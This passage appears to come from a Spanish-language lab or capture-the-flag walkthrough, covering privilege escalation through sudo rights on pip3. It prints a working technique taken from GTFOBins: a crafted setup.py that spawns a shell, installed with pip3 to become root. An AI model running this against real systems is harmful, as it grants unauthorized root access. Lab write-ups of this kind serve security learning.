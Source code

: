 ## Escalada de privilegios {-}

### Rootear la maquina {-}

```bash
sudo -l
```

vemos aqui que podemos utilizar la heramienta pip3 con el privilegio del usuario root sin proporcionar contraseña.

Miramos en [GTFOBINS](https://gtfobins.github.io/gtfobins/pip/#sudo)

```bash
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
pip3 install $TF

whoami
#Output
root
```